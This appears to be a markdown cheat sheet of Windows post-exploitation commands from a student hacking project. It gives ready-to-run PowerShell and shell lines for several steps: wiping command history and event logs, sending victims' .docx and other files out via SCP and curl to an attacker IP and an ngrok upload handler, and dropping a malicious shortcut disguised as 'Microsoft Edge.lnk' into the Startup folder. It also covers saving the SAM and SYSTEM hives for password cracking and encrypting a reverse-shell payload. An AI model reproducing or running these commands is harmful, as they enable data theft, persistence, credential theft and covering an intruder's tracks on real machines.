

# Clear logs

1. Delete winrun history

   ```powershell
   Remove-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
   ```

2. List powershell command history

   ```powershell
   rm (Get-PSReadlineOption).HistorySavePath
   ```

3. Clear PowerShell events log (**Administrator only**)

   ```powershell
   clear-eventlog -logname "Windows PowerShell"
   ```

   

# Files exfiltration

### Method 1 - Using SCP

> For example, Hacker's SSH server is **43.56.175.249:55522**

On hacker's SSH server:

```bash
# Open simple python http server on hacker's host
cd ~/.ssh
python3 -m http.server 8880
```

On victim, download and configure private-key:

```bash
# Get private key from hacker's server
curl -o "$home\id_rsa" http://43.56.175.249:8880/id_rsa

# Configure permission
icacls "$home\id_rsa" /inheritance:r; icacls "$home\id_rsa" /grant:r ($(whoami) + ':R')
```

Exploit:

```powershell
# Open new process to send files
Start-Process powershell -windowstyle hidden {scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r "<Full path to folder>/*.docx" lamnc2@43.56.175.249:/home/lamnc2/data_exfil}
```


Copy file from SSH server to local machine:

```bash
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r lamnc2@43.56.175.249:/home/lamnc2/data_exfil "I:\Temp_safe_to_delete\tmp"
```


### Method 2 - Using Curl

```powershell
# set $folder = folder to upload file
# set $upload_handler = url to upload handler on server
# powershell cmd: IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/[link to this file])
$folder = 'I:\Personal\';
$upload_handler ='http://bc416b4d16e3.ngrok.io/upload_handler.php';
$name = [uri]::EscapeDataString((whoami));
$a = ''; (Get-ChildItem $folder -Filter '*' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "});
$eval = "curl.exe $a $upload_handler`?folder=$name";
IEX $eval;
```

#### one-line

```powershell
$folder = 'F:\IAR401\';  $upload_handler='http://bc416b4d16e3.ngrok.io/upload_handler.php'; $name = 'hi'; $a = ''; (Get-ChildItem $folder -Filter '*.docx' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "}); $eval = "curl.exe $a $upload_handler`?folder=$name";IEX $eval;
```


# Startup shortcut to perform scripts

### Idea

Store a malicious shortcut in startup folder. 

- startup folder (for current user) `C:\Users\<current user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` = `$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- startup folder (for public user)


### Create malicious shortcut




### Procedure

1. change dir to startup folder: `cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`

2. download malicious shortcut using 

   1. **Cmd**:

      `curl -L https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk` 

      - `-L`: follow redirection

   2. **Powershell**:

      `curl https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk`

   

#### **One-line command**

```bash
cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"; curl -o "Microsoft Edge.lnk" https://github.com/lamthanhnam/public/raw/master/start_up/hi.lnk
```


# Get SAM and SYSTEM file for password decryption

```powershell
reg save hklm\sam $env:PUBLIC\Documents\hi_sam
reg save hklm\system $env:PUBLIC\Documents\hi_system
```


# Symmetric Encryption

Apply symmetric encryption to encrypt payload

```powershell
# Use with one-line command only
# Initial vars
$PayloadPath = "$pwd\rs_pay_final"
# $key = "1234567890123456" #<16, 24, 32 chars>
# $skey = [byte[]]("$key").ToCharArray()
$skey = (1..16)

# create secure string
$content = cat $PayloadPath

#---------- Encrypt -------------
$ss = ConvertTo-SecureString -String "$content" -Force -AsPlainText
$cipher = ConvertFrom-SecureString -SecureString $ss -Key $skey #Converts a secure string to an encrypted standard string

#----------- Decrypt -------------
# Apply to: https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=netcore-3.1#moniker-applies-to
# Ref: https://stackoverflow.com/a/28353003

# ----- Prepare variable for decrypt
$cipher = "..."
$skey = [byte[]]
$ss = ConvertTo-SecureString -String $cipher -Key $skey #Converts an encrypted standard string to a secure string

# ----- DECRYPT METHOD 1
Function ConvertTo-UnsecureString {
   Param (
       [System.Security.SecureString]$ss
   )
   Try { # main decode function
       $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
       [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
   }
   Finally {
       [System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocUnicode($ptr)
   }
}
$plain = ConvertTo-UnsecureString $ss

# ----- DECRYPT METHOD 2
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

echo $plain

# ---------- Print output -------------------
Write-Host -NoNewline "$cipher"
#-------------- Write encrypted payload to file -------
Out-File -FilePath .\encrypted_rs_pay -InputObject "$func`n$cipher" -Encoding ASCII
Out-File -FilePath "$pwd\encrypted_payload" -InputObject "$cipher" -Encoding ASCII -NoNewline ;
```

